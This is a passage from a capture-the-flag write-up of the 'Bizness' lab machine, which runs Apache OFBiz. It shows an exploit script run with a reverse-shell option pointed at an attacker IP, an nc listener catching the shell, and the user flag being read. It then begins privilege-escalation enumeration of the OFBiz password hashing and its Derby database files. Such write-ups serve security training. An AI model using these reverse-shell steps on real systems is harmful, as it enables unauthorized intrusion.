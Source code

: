 Next we run the script with shell option.

```shell
labadmin@labmachine:~/bizness $ python3 exploit.py https://bizness.htb shell 10.10.14.35:8000
Not Sure Worked or not
```

We got reverse shell as `ofbiz`.

```shell
labadmin@labmachine:~/bizness $ nc -lvnp 8000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.11.252:57622.
bash: cannot set terminal process group (550): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
ofbiz@bizness:/opt/ofbiz$
```

The user flag we find under ofbiz home directory.

```shell
ofbiz@bizness:/opt/ofbiz$ cat /home/ofbiz/user.txt
cat /home/ofbiz/user.txt
[...OMITTED...]
```

## Privilege Escalation

### ofbiz enumeration

Walking throught the installation found in `/opt/ofbiz/` we find `security.properties` under `/opt/ofbiz/framework/security/config/`.

This file reveals SHA is used as password hash.

```shell
# -- specify the type of hash to use for one-way encryption, will be passed to java.security.MessageDigest.getInstance() --
# -- options may include: SHA, PBKDF2WithHmacSHA1, PBKDF2WithHmacSHA256, PBKDF2WithHmacSHA384, PBKDF2WithHmacSHA512 and etc
password.encrypt.hash.type=SHA
```

Further research reveals that by default OFBiz uses an embedded Java Database named Apache Derby.

And from docummentation `[https://cwiki.apache.org/confluence/display/OFBIZ/Browsing+Derby+Database+in+Eclipse](https://cwiki.apache.org/confluence/display/OFBIZ/Browsing+Derby+Database+in+Eclipse)` we find out that the files are stored under runtime.

```shell
ofbiz@bizness:/opt/ofbiz$ ls -l /opt/ofbiz/runtime/data/derby
ls -l /opt/ofbiz/runtime/data/derby
total 16
-rw-r--r-- 1 ofbiz ofbiz-operator 2320 May 30 00:03 derby.log
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbiz
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbizolap
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 30 00:03 ofbiztenant
```
